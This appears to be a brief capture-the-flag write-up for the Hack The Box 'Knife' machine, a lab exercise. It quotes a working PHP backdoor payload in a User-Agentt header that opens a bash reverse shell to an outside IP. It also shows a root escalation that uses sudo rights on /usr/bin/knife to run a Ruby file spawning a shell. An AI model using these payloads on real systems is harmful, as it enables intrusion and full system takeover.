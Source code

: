 # Knife 🧭
Names | Details
--------|-----
Source | HTB
Level     | Medium
Os | Linux

**Notes :**




## Gaining Access 😉

- php version 8 is vulnerable
	- exploit on searchsploit
- manual exploit for tty shell



## Maintaining Access 🥷
- sudo -l
- knife can run ruby files
	- /usr/bin/knife run.rb
- `echo "system('/bin/bash')" > run.rb`
- User james may run the following commands on knife: 
    (root) NOPASSWD: /usr/bin/knife
 if you found this, run with sudo
 


## Important commands 🔥
- `User-Agentt: zerodiumsystem("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.138/1111 0>&1'");`
	- ` /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.138/1111 0>&1`
- `echo "system('/bin/bash')" > helo.rb``
- `sudo /usr/bin/knife exec helo.rb`

## Post Exploitation ✴️
- User flag : /home/user
- Root flag : /root/root
## Tips 💡
- always try to have a tty shell
- jailshell has some limitations


--------------------------------
**By Nibras Muhammed** 🤓🖥️






